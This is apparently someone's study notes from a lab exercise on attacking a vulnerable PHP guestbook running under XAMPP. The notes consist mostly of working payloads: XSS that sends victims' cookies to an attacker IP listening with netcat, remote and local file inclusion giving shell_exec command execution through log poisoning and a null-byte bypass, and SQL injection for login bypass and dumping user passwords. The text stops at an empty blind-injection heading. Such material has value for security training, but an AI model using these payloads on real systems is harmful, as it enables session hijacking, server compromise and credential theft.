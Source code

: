 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql

2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS
The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`

2. Setup a listener on your machine `nc -lvp 81` 

3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**

1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`

2. Setup a listener on your machine `nc -lvp 81` 

3. Visit the page as an admin

3. You will see that the cookie has been appended to the url your listener picks up

4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions
1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**
Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion
Even with remote file includes turned off it's still possible to run local files and it may be possible to posion log files in order to run php of our choosing.

1. Connect to the webserver using nc `nc -nv 10.11.5.115 80` and paste `<?php echo shell_exec($_GET['cmd']); ?>`

2. Check the access log  on your victims machine to confirm you have posioned the log file 

3. We can now attempt to include the log by navigating to

    `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit`

##SQL Injection (SQLi)

**Authentication Bypass**
Fairly simply hack our goal is to change a query from `SELECT * FROM USERS WHERE username="admin" AND password="XXXX"` to `SELECT * FROM USERS WHERE username="admin" or 1=1;#" AND password="XXXX"`

Once we gain control we can use limit's to ensure we only get one record if necessary

**Error Based Enumeration**
1. Test a field using `'` or `"` if you can see the errors you can glean extra information

2. Using order by you can manipulate the SQL to let you know how many columns are in the table 

    i.e at url `http://10.11.5.115/comment.php?id=738 order by 7` we run the SQL `SELECT * FROM guestbook where id = 738 order by 7` giving us the error `Unknown column '7' in 'order clause'`

3. Now that we now the number of columns in the table we can use `union all` to interegrate the data, remember that we need to return the same number of columns in our union

4. Using a basic union we will tag our columns to find out which/where they might be output

    `http://10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,5,6`

5. Now we can start enumerating using our union statements

    Version: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,@@version,6`
    
    User: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,user(),6`

6. In this case we are running as root so we can enumerate more heavily

    All Tables: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,table_name,6 FROM information_schema.tables`
    
    Get columns for a specific table: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,column_name,6 FROM information_schema.columns where table_name="users"`

7. Then it's just a case of dumping data of that table

    `http://10.11.5.115/comment.php?id=738%20UNION%20SELECT%201,2,name,4,password,6%20FROM%20users`

##Blind SQL Injection
